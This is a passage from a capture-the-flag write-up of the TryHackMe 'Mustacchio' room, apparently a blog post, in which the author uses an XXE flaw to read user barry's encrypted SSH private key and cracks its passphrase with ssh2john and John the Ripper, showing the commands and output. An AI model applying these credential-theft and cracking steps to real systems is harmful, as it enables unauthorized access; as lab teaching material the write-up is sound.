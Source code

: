 ![xxe2](../assets/img/posts/2024-11-02-post-thm-writeup-mustacchio/image-8.png)

With that, XXE vulnerability is confirmed and discovered the users joe and barry. Given the earlier hint that barry can log in using SSH, so decided to attempt to retrieve the SSH key pair using XXE.

![xxe3](../assets/img/posts/2024-11-02-post-thm-writeup-mustacchio/image-9.png)

Retrieved the private key, but it was encrypted. I copied it to a file named id_rsa and used John the Ripper to format it correctly and attempt to crack the hash

```bash
┌──(root㉿kali)-[~]
└─# /usr/share/john/ssh2john.py id_rsa > barry.hash

┌──(root㉿kali)-[~]
└─# /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt barry.hash 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
u********s       (barry)     
1g 0:00:00:02 DONE (2024-11-02 00:22) 0.3802g/s 1129Kp/s 1129Kc/s 1129KC/s urieljr.k..urielito1000
```